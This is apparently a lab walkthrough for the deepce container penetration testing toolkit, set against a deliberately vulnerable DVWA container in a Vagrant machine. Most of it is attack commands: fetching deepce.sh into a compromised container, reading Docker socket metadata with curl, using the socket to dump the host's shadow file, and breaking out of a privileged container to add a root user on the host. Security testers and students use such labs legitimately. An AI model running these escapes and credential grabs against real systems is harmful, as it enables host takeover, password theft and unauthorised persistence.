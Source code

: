 # deepce (container penetration testing toolkit)


## Setup the virtual machine
```/bin/bash
vagrant up
vagrant ssh
cd /vagrant
sudo docker-compose up -d
```


## Setup deepce
```/bin/bash
# Let's assume that you've exploited the application and dropped into the container's shell
sudo docker exec -it web-dvwa /bin/bash

# Time to set up the toolkit
apt-get update
apt-get install wget
wget https://github.com/stealthcopter/deepce/raw/master/deepce.sh
chmod +x deepce.sh
```


## Recon
```
./deepce.sh --install
```


## Exploitation
```
# Vulnerable Docker SOCK file
# List Docker Unix Socket metadata (containers, images, state, filesystem type, network, kernel, OS, runtimes)
# https://stealthcopter.github.io/deepce/guides/docker-sock.md
curl -s --unix-socket /var/run/docker.sock http://localhost/info
./deepce.sh --no-enumeration --exploit SOCK --shadow

# A privileged container (--privileged)
# Execute commands as root on the host OS
# https://stealthcopter.github.io/deepce/guides/docker-privileged.md
# `cat /etc/passwd` on host OS to verify new user was created
./deepce.sh --no-enumeration --exploit PRIVILEGED --username deepce --password deepce
```
